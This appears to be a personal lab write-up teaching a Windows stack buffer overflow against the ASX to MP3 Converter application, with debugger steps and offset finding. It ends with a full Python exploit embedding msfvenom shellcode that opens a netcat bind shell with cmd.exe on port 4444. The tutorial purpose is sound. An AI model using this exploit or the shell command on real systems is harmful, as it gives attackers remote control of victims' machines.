 # Windows Buffer Overflow
## 1. What is Buffer overflow
Similar with [Linux Buffer overflow](https://github.com/7heKnight/Learning-Reports/tree/main/INE/Linux%20Stack%20Smashing/Linux_BO_Foundation) theory of mine

---

## 2. Setting up environment
Download [ASX to MP3 Converter](https://www.exploit-db.com/apps/f4da5b43ca4b035aae55dfa68daa67c9-ASXtoMP3Converter.exe) and install it. After install this app, the application will locate at:
- `C:\Program Files (x86)\Mini-stream\ASX to MP3 Converter`

About the pattern, there are lots of tool like [mona](https://github.com/corelan/mona) (which is support on [Immunity Dubugger](https://www.immunityinc.com/products/debugger/)), or cyclic, or you can also use metasploit. In here I am going to use `cyclic`, to install it:
- `> pip install pwn pwntools pwnlib`

---

## 3. Finding Offset, Return Address
Open *Immunity Debugger*  , press `F3` to open the opening program menu and go to **ASXtoMP3Converter** program location and pick it.

![windows_stack_smashing-1.png](windows_stack_smashing-1.png)

Then, press `F9` to run, and the program's menu will appear.

![windows_stack_smashing-2.png](windows_stack_smashing-2.png)

Press load and see the supported file type.

![windows_stack_smashing-3.png](windows_stack_smashing-3.png)

In here,I will create a file with file type (*.\*m3u*) contain 18000 `A` buffers:

- `> python -c "print('A'*18000)" > Bof.m3u`

Then, re-run the program and drag the created file into load button, it will return a notification of error. Just searching on google, and (*\*.m3u*) is *MP3 URL*. So we will add `http://` to be a valid url:

- `> python -c "print('http://' + 'A'*18000)" > Bof.m3u`

After that, drag and drop it to load button again and we see that the `EIP` on Register table overrided with `0x41414141` which mean **AAAA**.

![windows_stack_smashing-4.png](windows_stack_smashing-4.png)

Re-run the application and create pattern with `cyclic` (which is one of tool's `pwn` library)

- `> pwn cyclic 18000` or can also use `> cyclic 18000`

Then adding `http://` in the first of string and execute it, and we got the `EIP` value is 0x78736761 use `cyclic` to find the offset:

- `cyclic -l 0x78736761` => Output is **17417**

Try to override EIP with `B`. Creating file to override it: `python -c "print('http://' + 'A'*17417 + 'B'* 4)" > Bof.m3u`

![windows_stack_smashing-5.png](windows_stack_smashing-5.png)

Now, we can see on `EIP` overrided with *0x42424242* which mean **BBBB**. Look down to stack table, roll up a little bit, we can see there are lots of A store in there, So I random choose the address close with the start to be the return address

![windows_stack_smashing-6.png](windows_stack_smashing-6.png)

---

## 4. Proof of Concept
We have already known the offset, got return address, using msfvenom to spawn the shellcode on linux machine:

- `msfvenom -p windows/exec CMD="nc -lvnp 4444 -e cmd.exe" -b '\x00' -f python`

Then copy it and make it to be a completely PoC

```python
from struct import pack  
  
# msfvenom -p windows/exec CMD="ncat -lvnp 4444 -e cmd.exe" -b '\x00' -f python
buf =  b""
buf += b"\xd9\xe8\xd9\x74\x24\xf4\xbd\x5b\xa4\x5d\x38\x58\x31"
buf += b"\xc9\xb1\x35\x31\x68\x1a\x03\x68\x1a\x83\xe8\xfc\xe2"
buf += b"\xae\x58\xb5\xba\x50\xa1\x46\xdb\xd9\x44\x77\xdb\xbd"
buf += b"\x0d\x28\xeb\xb6\x40\xc5\x80\x9a\x70\x5e\xe4\x32\x76"
buf += b"\xd7\x43\x64\xb9\xe8\xf8\x54\xd8\x6a\x03\x88\x3a\x52"
buf += b"\xcc\xdd\x3b\x93\x31\x2f\x69\x4c\x3d\x9d\x9e\xf9\x0b"
buf += b"\x1d\x14\xb1\x9a\x25\xc9\x02\x9c\x04\x5c\x18\xc7\x86"
buf += b"\x5e\xcd\x73\x8f\x78\x12\xb9\x46\xf2\xe0\x35\x59\xd2"
buf += b"\x38\xb5\xf5\x1b\xf5\x44\x04\x5b\x32\xb7\x73\x95\x40"
buf += b"\x4a\x83\x62\x3a\x90\x06\x71\x9c\x53\xb0\x5d\x1c\xb7"
buf += b"\x26\x15\x12\x7c\x2d\x71\x37\x83\xe2\x09\x43\x08\x05"
buf += b"\xde\xc5\x4a\x21\xfa\x8e\x09\x48\x5b\x6b\xff\x75\xbb"
buf += b"\xd4\xa0\xd3\xb7\xf9\xb5\x6e\x9a\x97\x48\xfd\xa0\xda"
buf += b"\x4b\xfd\xaa\x4a\x24\xcc\x21\x05\x33\xd1\xe3\x61\xcb"
buf += b"\x98\xae\xc0\x44\x44\x3b\x51\x09\x77\x91\x96\x34\xfb"
buf += b"\x10\x67\xc3\xe3\x50\x62\x8f\xa4\x89\x1e\x80\x40\xae"
buf += b"\x8d\xa1\x41\xc0\x52\x3f\x1d\x3d\xb8\xd3\xab\x53\xb2"
buf += b"\x0b\x67\x98\x06\x78\xa7\xcd\x03\xa0\xc4\x60\xa8\x8e"
buf += b"\x6f\x03\x55\xcf" 
  
offset = 17417  
nop = b'\x90'  
ret = pack('<I', 0x001480B8)  
  
payload = b'http://' + b'\x90'*100 + buf +  b'A'*(17417-100-len(buf)) + ret  
  
open('Bof.m3u', 'wb').write(payload)
```

![windows_stack_smashing-7.png](windows_stack_smashing-7.png)

---

## 5. Reference:
- msfvenom payloads cheatsheet: [https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9](https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9)
- Mona: [https://github.com/corelan/mona](https://github.com/corelan/mona)
- Immunity Dubugger: [https://www.immunityinc.com/products/debugger/](https://www.immunityinc.com/products/debugger/)
